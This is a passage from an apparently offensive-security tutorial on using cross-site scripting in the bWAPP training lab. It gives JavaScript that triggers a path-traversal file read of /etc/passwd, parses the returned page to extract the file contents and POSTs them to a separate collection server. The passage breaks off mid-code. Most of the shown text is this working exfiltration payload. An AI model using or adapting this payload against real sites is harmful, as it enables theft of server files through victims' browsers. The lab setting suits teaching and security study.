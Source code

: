 ![](/img/OffensiveXSS2/parseing.PNG)

The result is in a div called main. Luckily with Javascript we can quickly grab that content alone by using:
<br>
```
var parser = new DOMParser();
var htmlDoc = parser.parseFromString(data, 'text/html');
htmlDoc.getElementById("main");
```
<br>
![](/img/OffensiveXSS2/innertext.PNG)

We only need to grab a few lines off the tap of the text. One of the way is to split the text in two by the "Go" before the content by using substring and indexof. Nore that the +2 is because indexof will be the index of the letter G and we want our text after the word "GO".  
Then we just need to send back the result to our server with the following code:
<br>
```
async function grabLFIData() {
    var urlOfThePage = window.location.protocol + "//" + window.location.host
    lfiTarget = urlOfThePage + "/bWAPP/rlfi.php?language=../../../etc/passwd&action=go";
    dataSaveUrl = "http://127.0.0.1:5000/saveFile"
    let response = await fetch(lfiTarget);
    let data = await response.text();
    var parser = new DOMParser();
    var htmlDoc = parser.parseFromString(data, 'text/html');
    
    var text = htmlDoc.getElementById("main").innerText;
    fileContent = text.substring(text.indexOf('Go') + 2);
    await fetch(dataSaveUrl,{
        body: "fileContent=" + encodeURIComponent(fileContent) + "&fileName=" + encodeURIComponent("/etc/passwd"),
        headers:
        {
```
